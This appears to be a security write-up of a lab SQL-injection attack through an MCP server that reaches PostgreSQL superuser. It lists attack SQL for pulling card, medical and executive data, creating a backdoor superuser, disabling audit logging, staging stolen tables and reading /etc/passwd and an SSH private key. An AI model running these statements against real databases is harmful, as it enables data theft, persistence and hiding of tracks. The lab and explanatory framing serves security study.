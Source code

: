 #### MCP SQL Injection:
```mermaid
graph LR
    A[Attacker] --> B[User Account]
    B --> C[MCP Server] 
    C --> D[DB Connection]
    D --> E[SUPERUSER Privileges]
    
    style E fill:#FF0000
```
**Bound by**: Nothing (full database administrative access)

## What Your Lab Attack Probably Enabled

### Via MCP JSON-RPC injection, you could execute:

#### 1. **Comprehensive Data Exfiltration**
```sql
-- Executive compensation (SEC sensitive)
SELECT name, salary, bonus FROM executives WHERE year = 2024;

-- Customer financial data (PCI-DSS violation)
SELECT credit_card_number, cvv, expiry FROM customer_payments;

-- Medical records (HIPAA violation)  
SELECT patient_id, diagnosis, treatment FROM medical_records;

-- Trade secrets (IP theft)
SELECT product_name, formula, cost FROM proprietary_formulations;
```

#### 2. **Database Infrastructure Takeover**
```sql
-- Create persistent backdoor
CREATE USER attacker WITH SUPERUSER PASSWORD 'backdoor123';
GRANT ALL PRIVILEGES ON ALL TABLES TO attacker;

-- Modify audit settings to hide tracks
ALTER SYSTEM SET log_statement = 'none';
SELECT pg_reload_conf();

-- Create hidden tables for data staging
CREATE SCHEMA hidden;
CREATE TABLE hidden.stolen_data AS SELECT * FROM sensitive_customers;
```

#### 3. **File System Access (PostgreSQL Extensions)**
```sql
-- Exfiltrate data to files
COPY (SELECT * FROM all_customer_data) TO '/tmp/customers.csv';
COPY (SELECT * FROM financial_transactions) TO '/tmp/money.csv';

-- Read sensitive server files
SELECT pg_read_file('/etc/passwd');
SELECT pg_read_file('/home/postgres/.ssh/id_rsa');
SELECT pg_read_file('/var/log/auth.log');
```
